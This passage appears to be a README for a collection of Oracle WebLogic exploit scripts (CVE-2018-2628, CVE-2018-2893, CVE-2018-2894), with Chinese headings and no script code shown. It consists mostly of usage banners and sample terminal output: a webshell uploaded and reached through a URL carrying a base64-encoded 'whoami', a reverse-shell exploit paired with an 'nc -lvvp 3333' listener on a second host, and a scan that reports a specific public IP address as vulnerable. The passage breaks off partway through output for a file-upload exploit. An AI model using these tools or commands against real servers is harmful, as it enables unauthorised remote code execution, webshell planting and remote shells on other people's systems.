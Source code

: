 > EXP:
> ```
> zhzy@debian:$ python cve-2018-2628_webshell.py 1.1.1.11 7001 shell1.jsp
> [*] handshake successful
> [*] usage: python cve-2018-2628.py ip port shell1.jsp
> [+] Shell Dir: servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war\shell1.jsp
> 
> [+] Webshell: http://1.1.1.1:7001/bea_wls_internal/shell1.jsp?tom=d2hvYW1pCg==
> ```

## cve-2018-2893_poc.py WebLogic WLS 核心组件反序列化漏洞检测脚本
> VER:
> ```
> Oracle WebLogic Server 10.3.6.0
> Oracle WebLogic Server 12.1.3.0
> Oracle WebLogic Server 12.2.1.2
> Oracle WebLogic Server 12.2.1.3
> ```
> USE:
> ```
> zhzy@debian:$ python cve-2018-2893_poc.py 
> +--------------------------------------------------------+
> + USE: python cve-2017-3506_poc.py <url:port>            +
> + VER: 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1, 12.2.1.2  +
> + EXP: python cve-2017-3506_poc.py 59.110.214.109:7001   +
> +--------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python cve-2018-2893_poc.py 59.110.214.109 7001
> [+] testing target
> [+] send request payload successful,recv length:1700
> [+] 59.110.214.109:7001 is vul CVE-2018-2893
> ```

## cve-2018-2893_cmd.py WebLogic WLS 核心组件反序列化漏洞利用脚本
> ```
> zhzy@debian:$ python cve-2018-2893_cmd.py
> +------------------------------------------------------------------------------+
> + VER: Oracle WebLogic Server 10.3.6.0                                         +
> +      Oracle WebLogic Server 12.1.3.0                                         +
> +      Oracle WebLogic Server 12.2.1.2                                         +
> +      Oracle WebLogic Server 12.2.1.3                                         +
> + USE: python cve-2018-2893_cmd.py <host> <port> <reverse_host> <reverse_port> +
> + EXP: python cve-2018-2893_cmd.py 1.1.1.1 7001 2.2.2.2 3333                   +
> +      [2.2.2.2] nc -lvvp 3333                                                 +
> +------------------------------------------------------------------------------+
> ```

## cve-2018-2894_poc_exp.py	Weblogic 任意文件上传漏洞检测+利用
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.2
> 12.2.1.3
> ```
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2018-2894_upload.py -t http://1.1.1.1:7001
> [*] First Deploying Website Please wait a moment ...